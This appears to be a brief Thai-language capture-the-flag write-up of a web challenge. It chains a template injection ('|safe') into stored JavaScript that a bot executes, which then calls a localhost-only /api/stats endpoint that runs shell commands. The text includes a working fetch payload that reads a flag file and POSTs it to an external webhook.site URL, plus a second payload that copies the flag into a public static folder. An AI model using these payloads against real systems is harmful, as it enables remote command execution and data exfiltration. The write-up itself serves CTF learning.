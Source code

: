 

![alt text](image-3.png)

ssti (|safe) ยอให้ execute javascript

![alt text](image-4.png)

มี bot คอยอ่าน

![alt text](image-5.png)

if remote_address != "127.0.0.1" and remote_address != "::1":

จึงต้อง เรีก api ผ่าน bot 

attack flow :

1. ใส่ fake email ใน /addresses ที่เรียก /api/stats 

2. /api/stats เป็น get รับ command parameter ซึ่งถูก execute จริง

3. ส่ง output ของ /api/stats ให้ webhook



![alt text](image.png)

![alt text](image-1.png)

![alt text](image-2.png)


fetch('http://localhost:1337/api/stats?command=cat+../flag6fcb7a8e4d.txt').then(r=>r.text()).then(d=>fetch('https://webhook.site/ff5fd505-0c4f-4ec1-ad1d-6923e84d4d63',{method:'POST',body:d}))

// localhost มักจะผ่าน CORS ได้ง่ายกว่า
localhost:1337 → localhost:1337 ✅

// IP address อาจถูกบล็อกโดย CORS
127.0.0.1:1337 → 127.0.0.1:1337 ❌


fetch("/api/stats?command=cp+/flag*+/app/static/flag.txt")  สุดยอด